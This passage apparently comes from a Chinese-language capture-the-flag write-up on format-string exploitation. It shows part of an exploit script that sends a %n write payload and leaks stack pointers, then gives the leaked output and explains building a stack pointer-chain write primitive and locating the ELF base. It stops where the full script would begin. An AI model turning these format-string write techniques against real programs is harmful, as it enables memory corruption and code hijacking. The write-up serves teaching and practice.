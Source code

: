 ```
    baseline = []
    i = 17
    run_leak(p, b'%57001c%26$n')
    for j in range(1, 100):
        leaked_string = leak_str(p, i, j)
        if b'nil' in leaked_string or b'$' in leaked_string:
            pointer = 0
        else:
            pointer = int(leaked_string, 16)
        baseline.append(pointer)

    for i in range(len(baseline)):
        print("%-3d 0x%x" % (i+1, baseline[i]))

if __name__ == '__main__':
    main()
```

当索引`26`的地址进行写操作时，索引`39`的地址被`0xdead`覆盖最后四位。

```
...
17  0x7ffe079258b0
18  0x0
19  0x0
20  0xf5fe6c5e253d7550
21  0xf45110276a537550
22  0x0
23  0x0
24  0x0
25  0x1
26  0x7ffe079258b8
27  0x7ffe079258c8
28  0x7f29b9cee190
29  0x0
30  0x0
31  0x5634bfab41f0
32  0x7ffe079258b0
33  0x0
34  0x0
35  0x5634bfab421e
36  0x7ffe079258a8
37  0x1c
38  0x1
39  0x7ffe0000dead
...
```

此时，我们就获得一个原语。由于索引`39`包含堆栈地址，我们可以对其修改，让其作为跳板将数据写入另一个索引，这样就可以指向堆栈中的任意点，形如`stack ptr 1 -&gt; stack ptr 2 -&gt; somewhere in the stack`。<br>
接下来，需要找寻文件的基址，这里可以使用`.bbs`中的字符串地址和对应的掩码。ELF头是以`ELF`开头，经过一系列尝试，掩码为`0xffffffffffffe000`有很大可能得到正确的地址。完整的脚本如下：
